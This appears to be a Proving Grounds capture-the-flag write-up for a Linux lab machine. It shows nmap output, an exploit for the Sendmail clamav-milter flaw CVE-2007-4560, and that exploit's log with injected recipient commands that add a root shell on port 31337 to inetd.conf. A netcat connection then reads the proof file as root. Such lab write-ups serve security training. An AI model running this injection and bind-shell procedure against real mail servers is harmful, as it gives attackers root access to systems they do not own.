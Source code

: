 ```yaml
---
title: "Offensive Security – Proving Grounds – ClamAV Write-up"
published: true
ayout: post
categories: [OSCP]
tags: [ctf,oscp] 
---
```


# Machine Type: Linux

## Attack Walkthrough 


### Step 1: Service Enumeration with Nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.248.42
Host is up (0.10s latency).
Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-27T11:22:30-04:00
|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds

```


**Run Nmap Scan**: 
Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB** ```


**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.

### Step 2: Exploit Research for SMTP Service

1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
    
    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
    - **CVE**: CVE-2007-4560
    
    This exploit affects the version running on the target and is capable of remote command execution.
    
2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).


### Step 3: Executing the Exploit

1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.


```
perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00 
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.248.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 49RNc0PA004595 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```


**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.

```
c -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58 
(UNKNOWN) [192.168.248.42] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
xxxxxxxxxxxxxxxxxxxx

```

### Conclusion

By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.